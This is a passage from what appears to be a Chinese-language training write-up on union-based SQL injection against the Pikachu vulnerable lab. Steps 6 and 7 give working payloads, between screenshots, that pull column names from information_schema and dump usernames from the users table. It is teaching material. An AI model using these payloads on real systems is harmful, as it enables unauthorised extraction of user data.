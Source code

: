 6.爆user表中的列名`-1' union select (select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'),2#`

![QQ图片20200305105055.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305105055.png)

7.爆user表的username字段`-1' union select (select group_concat(username) from pikachu.users),2#`

![QQ图片20200305105434.jpg](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305105434.jpg)
